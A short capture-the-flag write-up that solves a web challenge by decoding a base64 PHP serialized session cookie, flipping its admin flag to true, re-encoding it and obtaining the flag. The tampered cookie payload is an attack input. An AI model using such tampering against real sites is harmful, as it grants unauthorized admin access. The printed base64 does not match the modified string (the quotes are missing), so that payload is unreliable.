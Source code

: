 Not a Pastry" was a web challenge worth 40 points.

We've discovered a mysterious website. Can you retrieve the flag?
Looking at the headers I saw a cookie name not_a_pastry which contained what appeard to be a base64 encoded string.

Tzo3OiJTZXNzaW9uIjoyOntzOjEwOiJzdGFydF90aW1lIjtpOjE0NjAyNTA1ODI7czo1OiJhZG1pbiI7YjowO30=

which, when decoded, translated to the following

O:7:"Session":2:{s:10:"start_time";i:1460250582;s:5:"admin";b:0;}

So I modified the decoded string to this...

O:7:"Session":2:{s:10:"start_time";i:9999999999;s:5:"admin";b:1;}"

... and encoded it back to base64

Tzo3OlNlc3Npb246Mjp7czoxMDpzdGFydF90aW1lO2k6OTk5OTk5OTk5OTtzOjU6YWRtaW47YjoxO30K

Now refreshing the page displayed the following text

Congratulations!
Your flag is: good_ole_fashioned_homemade_cookies


Flag: good_ole_fashioned_homemade_cookies
